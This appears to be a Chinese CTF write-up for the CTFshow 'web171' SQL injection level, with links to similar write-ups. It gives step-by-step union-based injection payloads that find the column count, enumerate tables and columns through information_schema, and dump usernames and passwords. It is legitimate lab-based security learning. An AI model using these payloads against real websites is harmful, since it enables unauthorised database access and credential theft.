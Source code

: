 # CTFSHOW -SQL 注入

重新来做一遍 争取不看wp

还是看了。。。。

 [CTFshow sql注入 上篇(web221-253)-CSDN博客](https://blog.csdn.net/Kracxi/article/details/124094102) 

 [[CTFSHOW]SQL注入(WEB入门)_y4tacker ctfshow-CSDN博客](https://blog.csdn.net/solitudi/article/details/110144623) 

 [CTFshow sql注入 上篇(web171-220)更新中 - 掘金](https://juejin.cn/post/7079386480497393701#heading-12) 

 [【精选】CTFshow-WEB入门-SQL注入(上)_having盲注_bfengj的博客-CSDN博客](https://blog.csdn.net/rfrder/article/details/113664639) 

 [ctfshow学习记录-web入门（sql注入191-200）-CSDN博客](https://blog.csdn.net/m0_48780534/article/details/127244647) 

**目录**

[TOC]





## web171  基本联合注入

拿到题目我们已经知道了是sql注入

所以我们可以直接开始



<img src="https://i-blog.csdnimg.cn/blog_migrate/1a4b31665c95570158109b430321b192.png" alt="" style="max-height:600px; box-sizing:content-box;" />


第一题 不会难道哪里去 所以我们直接进行注入即可

```cobol
1' and 1=2-- +
1' and 1=1-- +
 
实现闭合 
 
-1'+union+select+1,2,3--+%2b  查看字段数

-1'+union+select+1,database(),3--+%2b 查看数据库 ctfshow_web
 
-1'+union+select+1,group_concat(table_name),3+from+information_schema.tables+where+table_schema%3ddatabase()--+%2b   

查看表 ctfshow_user

-1'+union+select+1,group_concat(column_name),3+from+information_schema.columns+where+table_name%3d'ctfshow_user'--+%2b
 
查看字段名 id,username,password
 
-1'+union+select+1,group_concat(id,username,password),3+from+ctfshow_user--+%2b

获取flag

这里是bp抓包的格式 不是在页面进行注入的格式
```

